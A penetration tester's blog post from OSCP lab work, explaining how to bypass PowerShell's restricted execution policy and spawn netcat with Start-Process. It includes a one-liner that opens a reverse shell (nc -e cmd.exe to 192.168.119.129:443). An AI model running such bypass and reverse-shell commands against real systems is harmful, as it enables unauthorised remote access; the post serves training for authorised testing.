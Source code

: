 ```yaml
---
layout: post
title:  "Powershell For Penetration Testers Beating Restricted Policies"
author: nanobyte
date:   2020-05-23
description: PowerShell for Penetration Testing, and how to beat restricted policies to run commands and scripts
tags: PowerShell
---
```


Recently, while I was going for my Offensive Security Certified Professional (OSCP) certificate, I ran into a machine in the labs which had a restricted PowerShell. Simply stated, I could not enter into an interactive PowerShell session or run any PowerShell scripts. PowerShell has several execution policies which can be set on a system, and these execution policies determines which scripts can be run. By default, this is set to "Restricted". From Microsoft, restricted "doesn't load configuration files or run scripts. The default execution policy Windows client computers."

However, there is an execution policy which, as penetration testers, we want to have set. That execution policy is "Bypass", which states "nothing is blocked and there are no warnings or prompts." Luckily, we are able run a command or script with PowerShell's bypass execution policy set with an option. Now, even though the default restricted policy is set, our commands will still run. To run a PowerShell command with bypass:

{% highlight bash linenos %}
powershell -ExecutionPolicy Bypass -Command "whoami"
{% endhighlight %}

Or, for shorthand:

{% highlight bash linenos %}
powershell -exec bypass -c "whoami"
{% endhighlight %}

Now, even though the system is restricted, PowerShell can still be leveraged! Let's build on this and take it another step further. When you enter a PowerShell session or run a script, you run it in the context of the current profile. As penetration testers, we may not know what is within these profiles. For best practices, we can supply the No Profile flag which will run our script without using any profile:

{% highlight bash linenos %}
powershell -ExecutionPolicy Bypass -NoProfile -Command "whoami"
{% endhighlight %}

Or, another shorthand:

{% highlight bash linenos %}
powershell -exec bypass -nop -c "whoami"
{% endhighlight %}

Now, we can run commands from a restricted PowerShell enviornment without any profile loading. We are almost at the end goal, to execute a command on the system. If we wished to spawn a process, PowerShell has the Start-Process cmdlet. A cmdlet is a lightweight command that can be used within a PowerShell enviornment. There is most likely a cmdlet for anything you wish to accomplish in PowerShell. In my case, I wanted to start netcat for a reverse shell.

Start-Process is a powerful cmdlet, and to better understand it visit <a href="https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/start-process?view=powershell-7" target=_blank>docs.microsoft</href> to read about the full cmdlet. For our case, we need to first define the program we want to spawn, followed by the arguments. Simply calling Start-Process nc -e cmd.exe <IP> <PORT> would fail here. To properly spawn this new process:
  
{% highlight bash linenos %}
powershell -exec bypass -nop -c "& {$prog='C:\temp\nc.exe'; $args='-e cmd.exe 192.168.119.129 443'; Start-Process $prog $args }"
{% endhighlight %}

Now, our command will call PowerShell with a bypass in the execution policy, to run the command without any profile set, and run our Start-Process command, properly passing the $prog and $args variables to start our process. Now, you might be asking, where did the ampersand come from? In PowerShell, the ampersand is a reserved character for a run call operator. This call operator is needed to force PowerShell to not treat our command as a string, and execute it. For more information, please visit <a href="https://ss64.com/ps/call.html" target=_blank>ss64.com</href>.

And that is it, our command will now spawn a new process, bypassing the restricted PowerShell execution policy to run our command!
